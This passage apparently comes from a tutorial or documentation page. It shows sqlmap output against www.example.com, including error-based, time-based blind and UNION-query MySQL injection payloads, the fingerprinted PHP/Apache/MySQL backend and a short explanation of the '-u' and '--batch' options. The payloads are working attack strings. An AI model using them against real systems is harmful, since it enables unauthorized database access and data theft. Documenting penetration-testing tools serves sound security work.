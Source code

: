     Type: error-based
    Title: MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL &gt;= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL &gt;= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.</p>
</div>
</div>
